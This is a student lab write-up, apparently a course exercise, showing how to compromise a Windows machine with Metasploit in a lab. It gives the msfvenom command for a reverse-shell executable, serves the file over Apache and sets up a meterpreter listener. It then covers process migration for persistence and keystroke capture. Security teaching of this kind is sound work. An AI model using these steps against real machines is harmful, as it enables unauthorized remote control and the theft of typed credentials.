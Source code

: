 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### Developed By
- **Moenish Baalan G**
- **212223220057**
# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

### PROGRAM:

Find the attackers ip address using ifconfig

### Output:

![374794141-b98e3dbe-cbf4-465e-83aa-f1ac913b2a51](https://github.com/user-attachments/assets/aeb23eb6-9b7c-4222-b79d-4cd6b517e7ea)

Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:
![374794574-094f111d-38e4-47a4-b950-8c0544a3463e](https://github.com/user-attachments/assets/0e860edc-4818-475f-899d-0f5966853ceb)



copy the fun.exe into the apache ```/var/www/html ```folder
![374794668-1a19f712-d904-4e9a-9c3f-a0f824215d01](https://github.com/user-attachments/assets/b8270df3-4cb6-4079-8097-aa644b469f5e)


Start apache server ```sudo systemctl apache2 start``` 
![374794788-2944d067-02b2-43fc-9487-5f9e71c393b7](https://github.com/user-attachments/assets/6172b1a7-8925-4d66-b51d-6e7767e3e89c)


Check the status of apache2 ```sudo apache2 status```
![374794908-1577dcc8-8e32-4080-8459-521367056dc0](https://github.com/user-attachments/assets/0bd96436-de43-43a6-8303-0894f0792d3b)


Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
![374795103-d6bd1bdb-3064-45e8-b6b1-e22d2e80209f](https://github.com/user-attachments/assets/f75933b9-969b-4bb7-9ef1-ac8ec7229282)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.
![374795180-7be60e9f-2ce3-487a-9668-8bdb282e8931](https://github.com/user-attachments/assets/15185f4f-af3a-4c21-8d7f-9faf20d10382)


Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit
![374795286-596d3916-66f9-4605-8ae4-5dd21116b77a](https://github.com/user-attachments/assets/be00ebc6-60d6-44f5-ae86-99072015a8ca)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

#### Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![374795471-d53176fa-7af0-4f05-b526-91713074335d](https://github.com/user-attachments/assets/3a036de6-373f-4a39-b08f-b46d2a2406e1)

keyscan_dump Shows the keystrokes captured so far
![374795532-ec7c391d-62a6-4fdc-a2c3-ef383b6c8a57](https://github.com/user-attachments/assets/2e594854-8992-446c-b4ce-90894b5d7d4a)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

